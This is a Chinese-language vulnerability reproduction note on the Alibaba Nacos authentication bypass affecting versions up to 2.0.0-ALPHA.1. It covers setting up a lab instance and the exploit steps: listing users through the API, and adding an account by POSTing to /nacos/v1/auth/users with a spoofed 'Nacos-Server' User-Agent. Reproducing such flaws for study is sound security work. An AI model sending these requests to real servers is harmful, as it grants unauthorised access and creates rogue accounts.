






# Alibaba Nacos权限认证绕过

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞，攻击者可以通过该漏洞来创建新用户账户。

## 漏洞影响

> Nacos <= 2.0.0-ALPHA.1

## 环境搭建

下载安装文件：

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1


之后执行以下命令启动环境：

- 

```
./startup.sh -m standalone
```



之后访问http://your-ip:8848/nacos，默认账号密码为：nacos/nacos




## 漏洞复现

Step 1:查看用户列表

- 

```
http://192.168.174.236:8848/nacos/v1/auth/users?pageNo=1&pageSize=1
```



Step 2：添加用户Al1ex

```
http://your-ip:8848/nacos/v1/auth/users        POST:Nacos-Server.......
username=Al1ex&password=Al1ex
```




Step 3:登录测试



成功登录：



